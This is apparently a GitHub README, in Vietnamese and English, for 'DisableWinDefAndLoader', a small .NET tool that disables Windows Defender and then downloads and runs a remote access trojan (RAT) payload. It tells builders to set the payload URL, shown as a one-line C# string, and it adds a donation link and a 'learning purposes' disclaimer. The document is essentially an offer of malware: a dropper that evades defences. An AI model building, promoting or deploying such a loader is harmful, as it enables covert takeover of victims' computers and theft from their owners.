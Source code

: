 # DisableWinDefAndLoader

Đây là một ứng dụng nho nhỏ, chạy được từ windows 10 trở lên (chạy trên .NET framework 3.5).
Có thể disable windows defender và tự động tải, chạy payload RAT muốn thả vào.

This is a small application that can run on Windows 10 and above (requires .NET Framework 3.5).
It can disable Windows Defender and automatically download, then execute a RAT payload from a specified URL.

Thay payload url trong project trước khi build.
Replace the payload URL in the project before building.
```c#
string payload_url = "https://google.com/payload.exe";
```

# Buy me a coffee
https://paypal.me/bebinh1611?country.x=VN&locale.x=en_US


# Lưu ý:
Project được viết với mục đích học hỏi, tôi không chịu trách nhiệm trước mọi vấn đề, hành động nào được sử dụng với mục đích trái pháp luật.

This project is intended for learning purposes, I am not responsible for any issues or actions used for illegal purposes
